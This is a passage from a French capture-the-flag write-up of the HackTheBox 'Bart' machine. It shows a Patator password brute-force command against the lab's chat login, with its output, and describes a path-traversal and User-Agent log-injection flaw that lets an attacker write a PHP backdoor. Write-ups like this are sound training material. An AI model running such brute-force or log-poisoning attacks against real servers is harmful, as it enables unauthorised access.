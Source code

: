 Cet accès nous permet de voir un nouveau hostname parmi les serveurs monitorés : internal-01.bart.htb  

![HackTheBox Bart reference to internal-01.bart.htb](https://raw.githubusercontent.com/devl00p/blog/master/images/htb/bart_internal_chat_reference.png)

Un formulaire de login pour une appli de chat vraisemblablement home-made nous incite une fois encore à trouver un mot de passe pour ce cher *Harvey*. De quoi relancer *Patator* :  

```bash
devloop@kali:~$ patator http_fuzz url=http://internal-01.bart.htb/simple_chat/login.php method=POST body="uname=harvey&passwd=FILE0&submit=Login" follow=1 accept_cookie=1 0=passwords.txt -x ignore:fgrep='Invalid Username or Password' -x ignore:fgrep='The Password must be at least 8 characters'
14:44:21 patator    INFO - Starting Patator v0.6 (http://code.google.com/p/patator/) at 2018-05-26 14:44 CEST
14:44:21 patator    INFO -                                                                              
14:44:21 patator    INFO - code size:clen       time | candidate                          |   num | mesg
14:44:21 patator    INFO - -----------------------------------------------------------------------------
14:44:22 patator    INFO - 200  3370:2735      1.082 | Password1                          |     5 | HTTP/1.1 200 OK
14:44:22 patator    INFO - Hits/Done/Skip/Fail/Size: 1/6/0/0/6, Avg: 4 r/s, Time: 0h 0m 1s
```

Highway to shell
----------------

Cette application de chat est très sommaire toutefois en regardant le code source on devine une situation de write-what-where dans le mécanisme de logging présent :  

![HackTheBox Bart XHR request to log chats](https://raw.githubusercontent.com/devl00p/blog/master/images/htb/bart_internal_chat_xhr.png)

On peut s'en assurer avec cette erreur verbose lorsque l'on spécifie le *boot.ini* comme fichier de log :  

```plain
Warning: file_put_contents(../../../../../../../boot.ini): failed to open stream: Permission denied in C:\inetpub\wwwroot\internal-01\log\log.php on line 41
```

On a effectivement le write-where mais quand est-il du what ? Si on logue dans un nouveau fichier (*log.php?filename=abcd.txt&username=harvey*) et qu'on le consulte ensuite on trouve un contenu comme celui-çi :  

```plain
[2018-04-26 17:28:02] - harvey - Mozilla/5.0 (X11; Linux x86_64; rv:52.0) Gecko/20100101 Firefox/52.0
[2018-04-26 17:28:05] - harvey - Mozilla/5.0 (X11; Linux x86_64; rv:52.0) Gecko/20100101 Firefox/52.0
```

Après vérification, et comme on pouvait s'en douter, le User-Agent n'est pas proprement échappé avant d'être écrit dans les logs, ce qui permet ainsi d'écrire une backdoor PHP minimaliste dans un fichier PHP sous l'arborescence web.  
